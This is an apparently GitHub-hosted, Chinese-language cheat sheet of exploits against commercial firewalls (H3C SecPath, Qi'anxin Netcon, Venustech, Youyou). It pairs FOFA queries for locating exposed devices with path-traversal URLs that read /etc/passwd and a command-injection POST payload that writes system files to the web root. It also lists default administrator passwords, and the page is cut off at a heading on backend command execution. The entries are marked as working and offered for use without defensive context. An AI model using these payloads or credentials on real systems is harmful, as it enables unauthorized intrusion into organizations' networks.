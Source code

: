 #### H3C SecPath下一代防火墙

FOFA：

```
title="Web user login"
```

##### 任意文件下载 ✅

```
/webui/?g=sys_dia_data_check&file_name=../../etc/passwd
```

```
/webui/?
g=sys_capture_file_download&name=../../../../../../../../etc/passwd
```

#### 奇安信 网康下一代防火墙

FOFA：

```
app="网康科技-下一代防火墙"
```

##### 远程命令执行 ✅

```
POST /directdata/direct/router HTTP/1.1

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;cat /etc/passwd >/var/www/html/test_test.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
```

访问：

```
https://x.x.x.x/test_test.txt
```

#### 启明星辰 天清汉马USG防火墙

##### 默认口令

```
useradmin/venus.user
```

#### 佑友防火墙

##### 默认口令

```
admin/hicomadmin
```

##### 后台命令执行
